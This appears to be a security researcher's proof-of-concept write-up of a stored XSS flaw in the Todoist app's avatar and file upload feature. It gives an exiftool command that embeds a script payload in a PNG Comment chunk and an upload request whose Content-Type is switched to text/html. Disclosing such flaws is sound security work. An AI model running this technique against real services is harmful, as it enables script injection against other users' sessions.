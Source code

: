 # Todoist App v8484 Stored XSS
I discovered a Stored XSS vulnerability on Todoist's platform through the avatar upload feature
Unrestricted file uploads allowing crafted image files,

    Lack of server-side MIME type verification, and

    Improper sanitization of image metadata (PNG tEXt chunk - Comment field).

This allows an attacker to upload a PNG file that executes arbitrary JavaScript when rendered, leading to stored XSS.

 PoC Technical Details

    Vulnerability Location:

        https://app.todoist.com/app/project/

        https://app.todoist.com/app/task/

    Attack Method:

        A PNG image is created and injected with a script payload into the Comment field using exiftool.
    Exiftool Command:

exiftool -Comment='"><script>alert(prompt("XSS BY Sencer Kilic & Berat Aksit"))</script>' pngtoxss.png 


<img width="750" height="54" alt="1" src="https://github.com/user-attachments/assets/c31c94a9-244e-428d-ad2d-d88f0926fa42" />



    This creates a malicious metadata chunk:

tEXtComment"><script>alert(prompt("XSS BY Sencer Kilic & Berat Aksit"))</script>

<img width="796" height="327" alt="2" src="https://github.com/user-attachments/assets/a6e0fc8a-da12-415f-9829-f526b36524f0" />



    The PNG is then uploaded via the avatar or file upload function.

Content-Type Override:

    During upload, using Burp Suite, the Content-Type header of the file is changed:

        From: image/png

        To: text/html

Request Sample:

POST /api/v1/uploads HTTP/2
Host: app.todoist.com
Content-Type: multipart/form-data; boundary=...
...
Content-Disposition: form-data; name="file"; filename="pngtoxss.png"
Content-Type: text/html

<img width="950" height="466" alt="2" src="https://github.com/user-attachments/assets/e2170ba6-3f24-4d64-ab6f-cfaa5ebe41f7" />

<img width="783" height="428" alt="3" src="https://github.com/user-attachments/assets/cd344eef-d74b-4a4f-aa13-93b4a34ae577" />

<img width="954" height="491" alt="5" src="https://github.com/user-attachments/assets/1f191fdd-6fad-4afc-aad4-6ef8b84f11b1" />


Result:
The file is successfully uploaded and stored on cloudfront.net 

CDN:

   https://d1ysz50cxb9zwl.cloudfront.net/.../file.png

  
   <img width="952" height="428" alt="3" src="https://github.com/user-attachments/assets/e05452c5-1c8f-4a30-8be3-e8bb3a3e6fe2" />



    When previewed or rendered, the embedded JavaScript executes due to improper sanitization and MIME type handling.


    
